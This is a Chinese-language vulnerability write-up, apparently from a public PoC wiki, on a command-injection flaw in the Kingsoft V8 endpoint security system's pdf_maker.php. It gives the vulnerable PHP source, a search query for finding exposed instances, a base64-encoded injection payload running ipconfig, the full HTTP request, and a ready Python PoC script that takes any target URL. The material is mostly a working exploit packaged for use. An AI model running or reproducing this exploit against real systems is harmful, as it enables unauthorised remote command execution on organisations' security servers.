



金山 V8 终端安全系统 pdf_maker.php 命令执行漏洞¶
漏洞描述¶
金山 V8 终端安全系统 pdf_maker.php 存在命令执行漏洞，由于没有过滤危险字符，导致构造特殊字符即可进行命令拼接执行任意命令
漏洞影响¶
金山 V8 终端安全系统
网络测绘¶
app="猎鹰安全-金山V8+终端安全系统"
漏洞复现¶
存在漏洞的文件为
Kingsoft\Security Manager\SystemCenter\Console\inter\pdf_maker.php
<?php
require_once (dirname(__FILE__)."\\common\\HTTPrequest_SCpost.php");
/*
{
"kptl" :
{
"set_exportpdf_cmd" :
{
"url" : "http://172.18.254.146/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9- 580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
"fileName":"test.pdf"
}
}
*/
//$post = file_get_contents("php://input");
/*
$post = array("kptl"=>
array("set_exportpdf_cmd"=>array(
"url"=>"http://172.18.254.146/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9-580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
"fileName"=>"test1234.pdf"
)
));
*/
$url = $_POST["url"];
$fileName = $_POST["fileName"];
$batName=$fileName;
if ($url == null || $fileName == null)
{
$return["nResult"] = __LINE__;
echo json_encode($return,JSON_UNESCAPED_UNICODE);
return ;
}
$url = base64_decode($url);
$nameStr = base64_decode($fileName).date("Y-m-d").".pdf";
$fileName="..\\htmltopdf\\".$nameStr;
system('mkdir ..\\htmltopdf');
$cmd = '..\\..\\wkhtmltopdf.exe "'.$url.'" '.$fileName;
if (getApacheVersion()>=24) { //apache 2.4 php 7 版本 只能在 bat中运行
$cmd =" del ".$fileName;
exec($cmd);
$url_= str_replace('%','%%', $url);
$cmd = '..\\..\\wkhtmltopdf.exe "'.$url_.'" '.$fileName;
$batName ="exec_wkhtmltopdf.bat";
$myfile = fopen($batName , "w");
//$cmd =iconv("UTF-8", "gbk", $cmd );
fwrite($myfile, $cmd);
fclose($myfile);
$cmd =$batName ;
exec($cmd);
$cmd =" del ".$batName;
exec($cmd);
}else
{
system($cmd);
}
// echo $url;
$return = array("nResult" => "0","fileName" =>$nameStr,"url"=>$url);
echo json_encode($return,JSON_UNESCAPED_UNICODE);
?>

这里传入 base64加密的拼接命令即可执行任意命令
"|| ipconfig || --base64--> url=IiB8fCBpcGNvbmZpZyB8fA==&fileName=xxx
POST /inter/pdf_maker.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 45
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer:
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=noei1ghcv9rqgp58jf79991n04
url=IiB8fCBpcGNvbmZpZyB8fA%3D%3D&fileName=xxx

漏洞POC¶
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mTitle : 金山 V8 终端安全系统 pdf_maker.php 命令执行漏洞 \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
vuln_url = target_url + "/inter/pdf_maker.php"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded"
}
data = "url=IiB8fCBpcGNvbmZpZyB8fA==&fileName=xxx"
try:
response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
if "Windows" in response.text and response.status_code == 200:
print("\033[32m[o] 目标 {} 存在漏洞 ,执行 ipconfig, 响应为:\n{} \033[0m".format(target_url, response.text))
else:
print("\033[31m[x] 不存在漏洞 \033[0m")
sys.exit(0)
except Exception as e:
print("\033[31m[x] 请求失败 \033[0m", e)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
POC_1(target_url)
